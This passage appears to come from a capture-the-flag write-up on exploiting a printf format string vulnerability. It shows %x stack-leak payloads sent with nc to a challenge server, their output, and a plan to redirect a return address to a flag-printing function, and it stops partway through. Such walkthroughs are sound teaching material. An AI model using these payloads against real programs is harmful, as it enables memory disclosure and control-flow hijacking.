 The program uses `fgets` to read the input from the user into the local `input` buffer, uses `strcspan` to replace the line feed (`\n`) with a null terminator, and immediately calls `printf` with the input as the `format` parameter. Therefore, any format specifier supplied by the user will be interpreted and handled by `printf`.

Assuming we can use this vulnerability to perform arbitrary memory reads and writes, how do we use that to read the flag?

Fortunately, the creators supplied us with a convenient `noxFlag` function:

![](images/image002.png)

It opens `flag.txt`, and outputs the contents.

the function is not referenced from anywhere, but if we can take control of some return address, we can jump to it and get the flag.

Let's see what can we easily access using our format string vulnerability by leaking some values from the stack:

```console
$ echo "AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x" | nc 18.223.228.52 13337 && echo ""
Someone told me that pwning makes noxāle...
But......... how ????
AAAA804890c.f7fc95c0.8099dd00.9.ffffdec9.f7e24049.ffffddc4.f7fc9000.41414141.252e7825.78252e78.
$ echo "AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x" | nc 18.223.228.52 13337 && echo ""
Someone told me that pwning makes noxāle...
But......... how ????
AAAA804890c.f7fc95c0.26a07e00.9.ffffdec9.f7e24049.ffffddc4.f7fc9000.41414141.252e7825.78252e78.
$ echo "AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x" | nc 18.223.228.52 13337 && echo ""
Someone told me that pwning makes noxāle...
But......... how ????
AAAA804890c.f7fc95c0.eae92300.9.ffffdec9.f7e24049.ffffddc4.f7fc9000.41414141.252e7825.78252e78.
```

We start by printing "AAAA" to easily locate the beginning of our `input` buffer, then read 13 DWORDs from the stack using `%x`.

We can see our `input` buffer as the ninth DWORD from the beginning of the stack  (0x41414141, which is "AAAA" in ASCII). Before that, we have two DWORDs which are also part of `main`'s local variables, as identified by IDA:

